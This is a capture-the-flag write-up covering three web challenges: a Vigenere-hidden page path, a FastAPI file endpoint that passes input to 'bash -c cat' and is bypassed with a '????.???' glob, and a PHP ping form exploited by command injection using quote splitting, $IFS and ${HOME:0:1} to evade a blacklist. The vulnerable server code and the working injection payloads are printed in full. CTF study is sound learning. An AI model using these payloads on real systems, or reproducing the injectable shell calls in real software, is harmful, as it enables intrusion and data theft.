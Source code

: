 ***
# Table of Contents
- [Table of Contents](#table-of-contents)
    - [power of js](#power-of-js)
    - [Imagery](#imagery)
    - [Welcome to admin portal](#welcome-to-admin-portal)

***

### power of js

---

##### Challenge Description
Participants are to recover the flag by taking a look at the Javascript code and find the path.

http://challenge2.lagncrash.com:14000/

---

In the index.js file from http://challenge2.lagncrash.com:14000/ , there is some lines that were commented out

![](assets/comment.png)

Using a Vigenere cipher decode with `johndoe` as the key to decode p1, p2 and p3 we get thisisthemostsecretpagethatyoucantevenguessla.html

![](assets/pt1.png)
![](assets/pt2.png)
![](assets/pt3.png)

Going to `http://challenge2.lagncrash.com:14000/thisisthemostsecretpagethatyoucantevenguessla.html` we can get the flag `LNC{Cli3nt_sid3_c0ntr0l_bypa55}`

***

### Imagery

---

##### Challenge Description

Hey I found this cool website. I wonder if they actually hide smth on the website.

http://challenge1.lagncrash.com:18675/

---

Going to the webpage, we see an image. Inspecting the source, it shows that the image is at `/file?name=img/image.jpg`

Goign to `/file`, we can get the source code

```python
from fastapi import FastAPI, HTTPException, Request
from fastapi.responses import HTMLResponse, Response
from user_agents import parse
from os import path
import re
import subprocess

app = FastAPI()

def check_request(request):
    user_agent = None
    for header in request['headers']:
        if header[0] == b'user-agent':
            user_agent = header[1].decode()

    if not user_agent:
        return False
        
    user_agent = parse(user_agent)
    if user_agent.is_bot:
        return False
    
    return True

@app.get('/', response_class=HTMLResponse)
async def index(request: Request):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    with open('index.html', 'r') as file:
        html = file.read()
        return HTMLResponse(html)

allowed_chars = re.compile(r'^[a-zA-Z0-9\?/\.]*$')
def check_malicious_filename(name):
    if not allowed_chars.match(name):
        print("yessssssssssssss")
        return True

    if 'etc' in name or 'tmp' in name or 'flag.txt' in name:
        return True
    return path.isabs(name)

@app.get('/file')
async def get_file(request: Request, name='main.py'):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    if check_malicious_filename(name):
        raise HTTPException(400, 'Malicious request received')
    
    try:
        process = subprocess.check_output(['/bin/bash',"-c", "cat " + name])
    except subprocess.CalledProcessError:
        raise HTTPException(400, 'Malicious request received')

    return Response(process)
```

Bypass the regular expression check using ?
Going to `/file?name=????.???`, we can get the flag `LNC{R3T4ArD_IM4G3S}`

***

### Welcome to admin portal

---

##### Challenge Description

Participants are to recover the flag by exploiting a remote command execution vulnerability. Some of the more common special characters and commands are blacklisted ... at least thats what the developer thinks :)

http://challenge1.lagncrash.com:12860/

Going to the url, we see that it accepts an IP address and pings it
![](assets/site.png)

Adding '' in commands we can execute commands

Example: `127.0.0.1;l''s`
![](assets/ls.png)


when trying to running `;ca''t index.php`, it did not return any value
After researching, we found that we could use `$IFS` for space
we tried `;ca''t$IFSindex.php` but it did not return any output

we used `;pw''d;` to find out which directory we are at, it returned `/var/www/html` 

After trying `;ca''t$(IFS)/var/www/html/index.php` and did not return any output, we researched more to find that we could replace / with `${HOME:0:1}`

After running `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}index.php`, we could get the page source code
```php
<?php 
    if(isset($_POST["ip"])){
        $input = $_POST["ip"];
        echo "<hr /><br />";

    #remove most of the special characters
    $blacklist = array(" ","&","|","@","%","^","~","`","<",">",",","\\","/");
    $input = str_replace($blacklist,"", $input);

    #remove some of the common commands that are used
    $blacklist = array("ls","cat","less","tail","more","whoami","pwd","busybox","echo");
    $input = str_replace($blacklist,"", $input);

       $output = shell_exec("ping -c 1 ".$input);

    if(isset($_GET["debug"]) == true){
        echo "<div>ping -c 1 ".$input."</div>";
    }

    echo "<pre>".$output."</pre>";

    #Great! Now try finding the secret file 
    }
?>
```

After running `127.0.0.1;l''s$IFS-la` we can list the current directory
![](assets/cdir.png)

Seeing that there is a file named `...`, we can cat it by using `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}...` to get the flag `LNC{Wh1t3_0v3r_bl4ck}`

![](assets/flag.png)
